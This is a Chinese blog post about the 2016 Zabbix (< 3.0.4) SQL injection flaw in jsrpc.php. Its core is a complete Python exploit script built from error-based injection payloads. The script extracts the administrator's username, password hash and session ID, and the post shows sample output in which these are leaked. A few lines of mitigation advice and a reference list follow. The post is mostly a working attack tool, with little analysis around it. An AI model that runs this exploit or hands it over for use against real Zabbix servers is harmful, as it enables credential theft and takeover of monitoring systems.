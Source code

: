 ```yaml
---
layout: post
title: Zabbix 最新 SQL 注入漏洞及 EXP
description: "Zabbix 最新 SQL 注入漏洞及 EXP"
category: Security
avatarimg:
tags: [Security, Zabbix, SQL Injection, EXP]
duoshuo: true
---
```


# 引言

这两天，大家都在说 Zabbix 的 SQL 注入漏洞，下面我们来看下。

# CNNVD：关于 Zabbix 漏洞情况的通报

CNNVD：关于Zabbix漏洞情况的通报(http://bobao.360.cn/news/detail/3468.html)  
上面详细介绍了漏洞简介，漏洞危害，及修复措施。但没有说到漏洞检测测试的方法。
[【漏洞预警】ZABBIX高危漏洞，无需授权登陆即可完成控制](http://bobao.360.cn/news/detail/3462.html)，这篇文章提到漏洞检测测试的方法。  
下面我们根据以上漏洞测试方法来用 Python 写一个 Exp。

# Zabbix 最新 SQL 注入漏洞 EXP

以下根据 [zabbix最新SQL注入漏洞+EXP-独自等待博客](http://www.waitalone.cn/zabbix-sql-1.html) 稍做了下修改

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# Date: 2016/8/18
# Modified by: Jamin Zhang

import urllib2
import sys, os
import re

def deteck_Sql():
    u'检查是否存在 SQL 注入'
    payload = "jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=999'&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&mark_color=1"
    try:
        response = urllib2.urlopen(url + payload, timeout=10).read()
    except Exception, msg:
        print msg
    else:
        key_reg = re.compile(r"INSERT\s*INTO\s*profiles")
        if key_reg.findall(response):
            return True


def sql_Inject(sql):
    u'获取特定sql语句内容'
    payload = url + "jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=" + urllib2.quote(
        sql) + "&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17&itemids[23297]=23297&action=showlatest&filter=&filter_task=&mark_color=1"
    try:
        response = urllib2.urlopen(payload, timeout=10).read()
    except Exception, msg:
        print msg
    else:
        result_reg = re.compile(r"Duplicate\s*entry\s*'~(.+?)~1")
        results = result_reg.findall(response)
        if results:
            return results[0]


if __name__ == '__main__':
    # os.system(['clear', 'cls'][os.name == 'nt'])
    print '+' + '-' * 60 + '+'
    print u'\t   Python Zabbix < 3.0.4 SQL 注入 Exploit'
    print '\t    Origin Author: http://www.waitalone.cn/'
    print '\t\t   Modified by: Jamin Zhang'
    print '\t\t   Date: 2016-08-18'
    print '+' + '-' * 60 + '+'
    if len(sys.argv) != 2:
        print u'用法: ' + os.path.basename(sys.argv[0]) + u' [Zabbix Server Web 后台 URL]'
        print u'实例: ' + os.path.basename(sys.argv[0]) + ' http://jaminzhang.github.io'
        sys.exit()
    url = sys.argv[1]
    if url[-1] != '/': url += '/'
    passwd_sql = "(select 1 from(select count(*),concat((select (select (select concat(0x7e,(select concat(name,0x3a,passwd) from  users limit 0,1),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)"
    session_sql = "(select 1 from(select count(*),concat((select (select (select concat(0x7e,(select sessionid from sessions limit 0,1),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)"
    if deteck_Sql():
        print u'Zabbix 存在 SQL 注入漏洞！\n'
        print u'管理员  用户名密码：%s' % sql_Inject(passwd_sql)
        print u'管理员  Session_id：%s' % sql_Inject(session_sql)
    else:
        print u'Zabbix 不存在 SQL 注入漏洞！\n'

```    

以下为执行上述 Exp 脚本输出结果：

```bash
C:\Users\xxx\Desktop>python zabbix_exp.py
+------------------------------------------------------------+
           Python Zabbix < 3.0.4 SQL 注入 Exploit
                   Origin Author: http://www.waitalone.cn/
                   Modified by: Jamin Zhang
                   Date: 2016-08-18
+------------------------------------------------------------+
用法: zabbix_exp.py [Zabbix Server Web 后台 URL]
实例: zabbix_exp.py http://jaminzhang.github.io

C:\Users\xxx\Desktop>python zabbix_exp.py http://192.168.56.11/zabbix
+------------------------------------------------------------+
           Python Zabbix < 3.0.4 SQL 注入 Exploit
                   Origin Author: http://www.waitalone.cn/
                   Modified by: Jamin Zhang
                   Date: 2016-08-18
+------------------------------------------------------------+
Zabbix 存在 SQL 注入漏洞！

管理员  用户名密码：Zabbix:5fce1b3e34b520afeffb37ce08c7cd66
管理员  Session_id：16c9fe855b00a92112ae55cad58792c6
```    

漏洞修复方法上面提到的文档中都有说明，按照文档来修复吧。

# 扩展

## 1 运维思想

1. 如果 Zabbix 是通过 VPN 走公司内网访问，外面是无法访问 Zabbix 的
2. 如果 Zabbix 有外网地址，可以将 Zabbix 服务器的外网地址网卡 shutdown，使其无法从外网访问 Zabbix 服务器
3. 运维人员若想访问 Zabbix 查看监控，可以通过 VPN 连接公司内网，然后登录查看 Zabbix 监控
4. 黑客无法从外网访问你的 Zabbix 服务器，你的 Zabbix 服务器也就不存在漏洞的威胁

## 2 关于升级 Zabbix 服务器的风险

若贸然给服务器升级 Zabbix 服务的话，可能会造成监控业务的不稳定因素，需要提前规划好升级计划，要从根本上解决问题，规划配置好安全架构，而不是仅关注些许的漏洞

## 3 小结

* 漏洞是无止境的，只有只有从思想上去解决问题，才能避免安全事故的发生
* 技术的提升知识量的积累，思想的转变才是质的飞跃


# Ref
[CNNVD：关于Zabbix漏洞情况的通报](http://bobao.360.cn/news/detail/3468.html)  
[zabbix最新SQL注入漏洞+EXP](http://www.waitalone.cn/zabbix-sql-1.html)  
[【漏洞预警】ZABBIX高危漏洞，无需授权登陆即可完成控制（更新利用工具）](http://bobao.360.cn/news/detail/3462.html)  
[SQL injection vulnerabilities in "Latest data"](https://support.zabbix.com/browse/ZBX-11023)  
[Zabbix 2.2.x / 3.0.x - SQL Injection](https://www.exploit-db.com/exploits/40237/)  
[poc, vul, exp都是什么意思呢](https://www.zhihu.com/question/26053378)  
